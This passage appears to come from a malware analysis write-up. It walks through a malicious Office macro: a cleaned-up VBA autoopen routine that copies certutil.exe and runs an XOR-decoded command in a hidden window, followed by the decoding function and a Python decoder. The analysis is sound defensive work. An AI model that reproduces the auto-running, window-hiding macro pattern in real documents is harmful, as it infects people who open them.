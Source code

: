 After cleaning up the code manually, we get a clearer understanding of its functionality:

```vb
Sub autoopen()
    decoded_command = decodeFunction("LONG-ENCODED-STRING")
    Dim shellInstance as New WshShell
    Call shellInstance.run("cmd /c copy C:\Windows\System32\certutil.exe C:\ProgramData\1.exe", 0)
    Call shellInstance.run(decoded_command, 0)
End Sub
```

**Step-by-Step Breakdown:**  
1. **Decoding the Command:**  
   The macro passes an encoded string to the function `h`, which decodes it. We will analyze the decoding logic later in Stream `A10`.

2. **Creating a Shell Instance:**  
   A new `WshShell` instance is created to execute commands on the host.

3. **Copying Certutil:**  
   The macro uses `cmd.exe` to copy `C:\Windows\System32\certutil.exe` to `C:\ProgramData\1.exe`. Certutil is a legitimate Windows utility commonly abused by malware for making HTTP requests.

4. **Executing the Decoded Command:**  
   The decoded command is executed using the same `WshShell` instance. The `0` at the end of the `Shell.run` call hides the terminal window, reducing the likelihood of detection.

---

#### **Manual Analysis of Stream A10**  
Stream `A10` contains the decoding function `h` and another unused function `vY`:

```vb
Function h(ju)
    eR = Split(ju, "%")
    For lc = 0 To UBound(eR)
        hh = hh & Chr(eR(lc) Xor 111)
        Next lc
        h = hh
End Function

Function vY()
    vY = "util"
End Function
```

The `h` function performs a basic XOR decryption. It splits the encoded string by `%`, XORs each character with the key `111`, and concatenates the results. Implementing this logic in Python allows us to decode the command:

```python
CIPHER = "12%2%11%79%64%12%79%77%28%10%..."
KEY = 111

cipher_chars = CIPHER.split('%')
plain = ''.join([chr(int(c) ^ KEY) for c in cipher_chars])
print(plain)
```
